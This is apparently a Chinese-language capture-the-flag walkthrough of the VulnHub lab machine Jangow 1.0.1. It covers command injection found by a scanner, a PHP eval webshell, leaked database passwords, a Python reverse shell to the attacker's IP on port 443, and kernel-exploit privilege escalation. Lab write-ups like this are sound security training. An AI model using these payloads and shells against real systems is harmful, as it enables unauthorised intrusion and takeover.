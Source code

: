 [https://www.vulnhub.com/entry/jangow-101,754/](https://www.vulnhub.com/entry/jangow-101,754/)

xray扫描得知存在命令执行

```
[Vuln: cmd-injection]
Target           "http://192.168.56.118/site/busque.php?buscar="
VulnType         "injection/cmd"
Payload          "\nexpr 924417132 + 879096350\n"
Position         "query"
ParamKey         "buscar"
ParamValue       "\nexpr 924417132 + 879096350\n"
feature          "1803513482"
type             "echo_based"
```

写入webshell,`echo '<?php eval($_POST[a]);?>' > a.php`,权限为`www-data`

`/var/www/html/.backup`

```php
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

`/var/www/html/site/wordpress/config.php`

```php
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

但用户名和密码均不正确...

`/home/jangow01/user.txt`

```
d41d8cd98f00b204e9800998ecf8427e
```

cmd5反查得知其为空字符的md5

反弹shell,发现存在端口限制,试了试80,443等常用端口,发现443端口不受影响

```python
import socket
import subprocess
import os
ip="192.168.56.1"
port=443
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

尝试切换用户`jangow01`,返回`su: must be run from a terminal`,需要将反弹回来的shell转换为交互式的shell

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`

2. `python3 -c "__import__('subprocess').call(['/bin/bash'])"`

建议使用第一种方法,成功利用密码`abygurl69`切换到用户`jangow01`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021941801.png)

靶机环境为`ubuntu16.04`,直接用`CVE-2021-3156`尝试提权,提示`AssertionError: glibc is too old. The exploit is relied on glibc tcache feature. Need version >= 2.26`

换个`CVE-2016-5195`,好像宕机了qwq,在真实渗透环境已经gg了...

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112021927760.png)

尝试用`CVE-2017-16995`提权,成功提权

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022112151.png)

ufw配置情况

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112022120567.png)